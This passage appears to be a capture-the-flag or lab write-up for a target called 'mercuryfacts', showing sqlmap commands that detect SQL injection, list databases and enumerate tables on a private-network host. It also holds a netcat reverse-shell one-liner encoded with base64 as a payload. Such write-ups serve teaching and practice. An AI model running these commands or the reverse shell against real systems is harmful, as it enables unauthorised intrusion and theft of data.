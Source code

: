 ```echo ‘nc -e /bin/bash 192.168.1.9 4444’ | base64```
Objective: Deliver the payload to exploit the SQL injection vulnerability.


SQL Injection via SQLMap in Kali Linux : 
```sqlmap -u "http://192.168.1.201:8080/mercuryfacts/”  --batch --risk=3 --level=5```

Flags explained:


•	-u → target URL


•	--batch → auto-confirm prompts


•	--risk=3 → test risky payloads


•	--level=5 → test more parameters and headers


URI parameter #1* is injectable.


<img width="912" height="596" alt="image" src="https://github.com/user-attachments/assets/d04674db-7287-441c-8659-85d0620df173" />



This lists all available databases.:
```sqlmap -u "http://192.168.1.201:8080/mercuryfacts/#1*/ --dbs```


<img width="1125" height="1198" alt="image" src="https://github.com/user-attachments/assets/c2fbb1cb-0b69-4b98-ade9-50d6268a1688" />


<img width="1125" height="1072" alt="image" src="https://github.com/user-attachments/assets/85185aa4-2ed8-4965-bfa0-37a5e2c69d78" />



Discovered databases:<br>
•	information_schema<br>
•	mercury



**4. Exploitation**



Objective: Extract sensitive data and gain initial access.



We’ll check the ‘information_schema’ first :
```sqlmap -u "http://192.168.1.201:8080/mercuryfacts/#1*/" -D information_schema –tables```


<img width="1060" height="1106" alt="image" src="https://github.com/user-attachments/assets/aad5814a-27c4-4c23-893e-2f745faf23e4" />

```